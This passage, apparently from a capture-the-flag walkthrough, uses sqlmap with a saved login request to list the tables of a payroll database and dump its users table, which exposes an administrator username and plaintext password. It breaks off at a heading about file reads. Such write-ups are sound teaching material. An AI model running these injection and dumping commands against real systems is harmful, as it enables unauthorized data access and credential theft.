 
There are 11 tables:

    
    
    oxdf@hacky$ sqlmap -r login.req --batch --threads 10 -D payroll_db --tables
    ...[snip]...
    Database: payroll_db
    [11 tables]
    +---------------------+
    | position            |
    | allowances          |
    | attendance          |
    | deductions          |
    | department          |
    | employee            |
    | employee_allowances |
    | employee_deductions |
    | payroll             |
    | payroll_items       |
    | users               |
    +---------------------+
    ...[snip]...
    

I’ll dump the `users` table:

    
    
    oxdf@hacky$ sqlmap -r login.req --batch --threads 10 -D payroll_db -T users --dump
    ...[snip]...
    Database: payroll_db
    Table: users
    [1 entry]
    +----+-----------+---------------+------+---------+---------+-----------------------+------------+
    | id | doctor_id | name          | type | address | contact | password              | username   |
    +----+-----------+---------------+------+---------+---------+-----------------------+------------+
    | 1  | 0         | Administrator | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
    +----+-----------+---------------+------+---------+---------+-----------------------+------------+
    ...[snip]...
    

One user, with username Enemigosss, and password “SuperGucciRainbowCake”. I’ll
note these both.

#### File Read with sqlmap
